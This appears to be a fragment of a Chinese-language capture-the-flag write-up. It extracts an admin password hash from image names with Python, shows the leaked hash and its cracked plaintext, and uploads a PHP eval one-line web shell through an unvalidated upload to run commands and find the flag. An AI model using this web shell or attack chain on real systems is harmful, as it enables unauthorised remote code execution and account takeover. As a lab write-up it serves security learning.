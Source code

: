 ```python
resp = sess.get(_target+'index')
moods = re.findall(r'img/([0-9]+)\.gif', resp.text)[::-1] # last publish will be read first in the html
admin_hash = ''.join(map(lambda k: chr(int(k)), moods))

print('[+] admin hash => ' + admin_hash)
```

![](assets/markdown-img-paste-20190824162606432.png)

泄露出admin的密码为`c991707fdf339958eded91331fb11ba0`

使用[查MD5](http://www.chamd5.org/)md5解密为`jaivypassword`

## webshell

![](assets/markdown-img-paste-20190824163258597.png)

代码无校验, 直接上传PHP一句话木马: `<?php @eval($_POST[cmd]);?>`

访问上传的`shell.php`, 使用`system('find / -name "*flag*"');`查找flag文件
